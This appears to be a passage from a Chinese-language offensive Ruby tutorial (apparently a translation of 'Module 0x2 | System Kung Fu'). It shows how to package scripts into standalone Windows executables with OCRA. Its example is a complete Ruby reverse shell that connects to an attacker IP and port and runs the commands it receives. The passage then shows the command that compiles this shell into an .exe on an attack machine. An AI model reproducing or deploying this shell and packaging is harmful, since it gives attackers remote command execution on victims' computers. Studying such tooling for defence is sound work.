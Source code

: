# 模块 0x2 | 系统功夫

# 模块 0x2 | 系统功夫

## 打包

很多关于构建一个独立应用程序的问题，不需要在系统上预先安装 Ruby。当然，由于攻击机器，你无法保证目标系统上是否安装了 Ruby。因此，在这里我们将演示一些方法。

### 一键 Ruby 应用程序(OCRA)构建器

OCRA（一键 Ruby 应用程序）从 Ruby 源代���构建 Windows 可执行文件。该可执行文件是一个自解压、自运行的可执行文件，包含了 Ruby 解释器、你的源代码以及任何额外需要的 Ruby 库或 DLL。

**仅支持 Windows**，当然不是 ;)

+   Features

    > +   LZMA 压缩（可选，默认开启）
    > +   
    > +   Ruby 1.8.7, 1.9.3, 2.0.0 和 2.1.5 支持
    > +   
    > +   支持窗口/控制台模式
    > +   
    > +   根据使用情况或从 Bundler Gemfile 中包含 gems

+   安装 OCRA

    ```
    gem install ocra 
    ```

所有你需要的就是你的应用程序。

假设我们有以下脚本，当然是一个反向 shell ;)

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.new(ip,port)
while cmd = s.gets
  IO.popen(cmd,"r"){|io|s.print io.read}
end 
```

从我们的 Windows 攻击机器 cmd.exe

```
C:\Users\admin\Desktop>ocra rshell.rb --windows --console 
```
